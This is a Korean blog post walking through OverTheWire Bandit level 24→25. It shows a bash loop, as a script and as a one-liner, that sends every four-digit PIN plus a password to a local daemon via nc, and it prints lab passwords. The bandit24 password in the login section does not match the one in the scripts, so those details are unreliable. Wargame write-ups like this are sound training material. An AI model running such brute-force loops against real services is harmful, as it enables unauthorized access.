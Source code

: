 ```yaml
---
layout: post
title: "[Bandit] Level 24 → 25 풀이"
date: 2025-07-05 09:05:00 +0900
categories: bandit
tags: [overthewire, bandit, linux, brute-force, shell-script]
---
```


> 📝 **공식 문제 (Level 24 → 25)**
>
> **Level Goal**
> A daemon is listening on port 30002 and will give you the password for bandit25 if you send it the password for bandit24 and a 4 digit numeric PIN code.
>
> **Commands you may need to solve this level**
> `nc`, `telnet`

---

## 🔐 Level Info

- **접속 정보**
  - 사용자: `bandit24`
  - 비밀번호: `D2J41fb8mpcr9hjsf32ECf2d012eK2g9`
  
- **접속 명령어**

  ```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
  ```

---

## 🧪 풀이 과정

1.  `localhost:30002`로 접속하여 현재 비밀번호와 4자리 PIN을 입력해야 함을 확인
2.  0000부터 9999까지 모든 PIN을 시도하는 `for` 루프 쉘 스크립트 작성
3.  스크립트를 실행하여 올바른 PIN을 찾고 다음 비밀번호 획득

```bash
# 풀이용 스크립트 파일 (brute.sh) 내용
#!/bin/bash
PASS="gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8"
for i in {0000..9999}
do
  echo "$PASS $i"
done | nc localhost 30002 | grep -v "Wrong"
```

## 🧪 다른 풀이 방법
1.  스크립트 파일 없이, 터미널에서 한 줄로 for 루프를 실행

```bash
bandit24@bandit:~$ for i in {0000..9999}; do echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"; done | nc localhost 30002 | grep -v "Wrong"
```

---

## 🎯 결과

<details markdown="1">
<summary>👀 클릭하여 비밀번호 확인하기</summary>

```bash
pOhf1B4V482m1D5OPs2f42a5M7i42oSb
```

</details>

---

## 💡 배운 점
1. 쉘 스크립트 for 루프를 이용한 Brute-force 공격
2. {0000..9999}: 0으로 채워진 4자리 숫자를 순차적으로 생성함.
3. grep -v "Wrong": "Wrong"이 포함된 줄을 제외하고 출력하여, 성공한 결과만 필터링함.

---
